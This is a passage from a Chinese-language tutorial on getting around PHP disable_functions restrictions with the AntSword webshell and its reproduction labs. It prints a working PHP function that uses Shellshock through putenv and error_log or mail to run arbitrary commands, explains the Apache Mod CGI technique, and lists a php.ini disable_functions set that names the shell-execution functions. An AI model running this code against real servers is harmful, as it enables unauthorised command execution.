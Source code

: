 
其中有关于`shellshock`的部分，就是说，蚁剑已经默认支持`shellshock`的绕过姿势，不需要额外的插件来实现，直接终端执行命令即可

```php
    function runshellshock($d, $c) {
        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {
            if (strstr(readlink("/bin/sh"), "bash") !== FALSE) {
                $tmp = tempnam(sys_get_temp_dir(), 'as');
                putenv("PHP_LOL=() { :; }; {$c} >{$tmp} 2>&1");
                if (fe('error_log')) {
                    error_log("a", 1);
                } else {
                    mail("a@127.0.0.1", "", "", "-bv");
                }
            } else {
                return False;
            }
            $output = @file_get_contents($tmp);
            @unlink($tmp);
            if ($output != "") {
                print($output);
                return True;
            }
        }
        return False;
    }
```


## 03 Apache Mod CGI

### 原理

apache通过cgi处理请求，每个请求都会生成一个独立的进程，导致系统资源被大量消耗，如果选择把php作为一个模块`apache_mod_php`时，PHP 代码在 Apache 进程内执行，不需要额外为每一个请求创建独立的进程，高效提高资源利用率，可以通过`php.ini`配置php模块。

如果 `Apache` 服务器启用了 `Mod CGI`，那么apache服务器可以直接运行 `.cgi` 或 `.sh` 脚本，攻击者可以创建一个包含恶意代码的 `CGI` 脚本，让 `Apache` 直接执行，调用系统命令，整个过程与php模块无关，不受php.ini限制


### 配置与部署

php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system,putenv
```

> 相比 LD_PRELOAD姿势 多了 `putenv`


[ShellShock 复现环境](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/3/)

